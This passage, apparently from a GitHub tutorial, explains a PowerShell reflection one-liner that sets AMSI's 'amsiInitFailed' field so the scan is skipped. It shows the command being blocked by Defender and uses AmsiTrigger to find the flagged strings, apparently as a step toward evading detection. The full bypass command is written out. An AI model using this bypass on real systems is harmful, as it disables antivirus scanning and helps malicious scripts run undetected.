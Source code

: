 2. `.GetField('amsiInitFailed','NonPublic,Static')`: This part of the command uses the `GetField()` method to get a reference to the private, static field within the *System.Management.Automation.AmsiUtils* class called `"amsiInitFailed"`. The `'NonPublic,Static'` argument specifies that the method should retrieve a non-public and static field.
    
3. `.SetValue($null,$true)`: Finally, this part of the command uses the `SetValue()` method to set the value of the `"amsiInitFailed"` field to true. The `$null` argument specifies that we are not setting the value on an instance of the object, and the `$true` argument is the new value we are setting the field to.

The reason for setting `"amsiInitFailed"` to true is to bypass AMSI detection, which may be used by antivirus or other security software to detect and block potentially malicious PowerShell commands or scripts. By indicating that the initialization of AMSI has failed, this command prevents AMSI from running and potentially interfering with the execution of PowerShell commands or scripts. It is worth noting, however, that bypassing AMSI can also make it easier for malicious actors to execute code on a system undetected, so caution should be exercised when using this command in practice.

## <span style="color:lightgreen">Running the command</span>

Lets open Powershell and execute the original payload to patch AMSI and check the result.

```powershell
PS:\> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/48c89446-f2a8-41ad-aeb3-d93f450f4872)

+ As we can see, Windows has identified the command as malicious and blocked it from being executed.
+ Now we need to identify what part of the payload is getting detected by Defender and triggering it to be marked as malicious.

## <span style="color:lightgreen">AMSI Trigger</span>

+ With the help of **AMSITrigger.exe**, we can identify the malicious string in the payload.

```powershell
PS C:\AMSITrigger>  .\AmsiTrigger_x64.exe
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/8c68b13f-d163-4b29-9f51-4394d7e89368)

+ We can save our payload in a `.ps1` file, and with the `-i` flag, we can supply the malicious `ps1` file

```powershell
PS C:\AMSITrigger>  .\AmsiTrigger_x64.exe -i test.ps1
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/b846c3bd-a009-40fa-a1ee-f6797931ce08)

From the output results we can see that it flagged two strings as malicious
  1. **"A m s i U t i l s"**
  2. **"a m s i I n i t F a i l e d"**

